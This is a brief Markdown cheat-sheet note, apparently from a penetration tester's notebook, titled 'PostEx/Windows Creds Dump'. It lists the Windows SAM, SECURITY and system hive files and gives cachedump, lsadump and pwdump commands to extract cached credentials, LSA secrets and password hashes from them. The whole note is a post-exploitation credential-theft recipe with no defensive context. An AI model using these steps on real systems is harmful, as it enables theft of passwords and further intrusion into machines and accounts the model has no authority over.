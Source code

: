 ```yaml
---
tags: [PostEx]
title: PostEx/Windows Creds Dump
created: '2020-01-22T09:04:11.474Z'
modified: '2020-01-23T02:13:56.160Z'
---
```


# PostEx/Windows Creds Dump
Get three files
1. `C:\Windows\System32\config\SAM`
2. `C:\Windows\System32\config\SECURITY`
3. `C:\Windows\System32\config\system`

Get data from them
```
cachedump system SECURITY
lsadump system SECURITY
pwdump system SAM
```
